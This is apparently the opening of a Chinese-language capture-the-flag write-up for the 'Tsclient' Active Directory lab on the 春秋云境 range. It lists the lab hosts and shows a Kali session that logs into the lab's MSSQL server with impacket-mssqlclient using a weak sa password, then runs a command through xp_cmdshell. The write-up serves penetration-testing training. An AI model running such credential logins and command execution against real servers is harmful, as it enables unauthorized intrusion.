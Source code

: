 ```yaml
---
layout: post
title: Tsclient - 春秋云境
category: [春秋云境]
tags: [active directory pentesting, tsclient, image hijacks]
---
```


![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/3197336f62f849ea.png)

靶标介绍：

Tsclient 是一套难度为中等的靶场环境，完成该挑战可以帮助玩家了解内网渗透中的代理转发、内网扫描、信息收集、特权提升以及横向移动技术方法，加强对域环境核心认证机制的理解，以及掌握域环境渗透中一些有趣的技术要点。该靶场共有 3 个 flag，分布于不同的靶机。

| 内网地址    | Host or FQDN              | 简要描述                   |
| ----------- | ------------------------- | -------------------------- |
| 172.22.8.18 | WIN-WEB                   | 外网 MSSQL 数据库服务器    |
| 172.22.8.31 | WIN19-CLIENT.XIAORANG.LAB | john 用户的 RDP 客户端电脑 |
| 172.22.8.46 | WIN2016.XIAORANG.LAB      | Domain Admins 组中的主机   |
| 172.22.8.15 | DC01.XIAORANG.LAB         | 域控                       |

## MSSQL

外网 mssql 弱口令，可以使用 xp_cmdshell 执行命令：

```
┌──(root㉿kali)-[/home/kali/Desktop]
└─# impacket-mssqlclient sa:'1qaz!QAZ'@xx.xx.xx.xx
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: 简体中文
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(WIN-WEB): Line 1: 已将数据库上下文更改为 "master"。
[*] INFO(WIN-WEB): Line 1: 已将语言设置更改为 简体中文。
[*] ACK: Result: 1 - Microsoft SQL Server (130 665)
[!] Press help for extra shell commands
SQL> xp_cmdshell whoami
output

--------------------------------------------------------------------------------

nt service\mssqlserver

NULL

SQL>
```
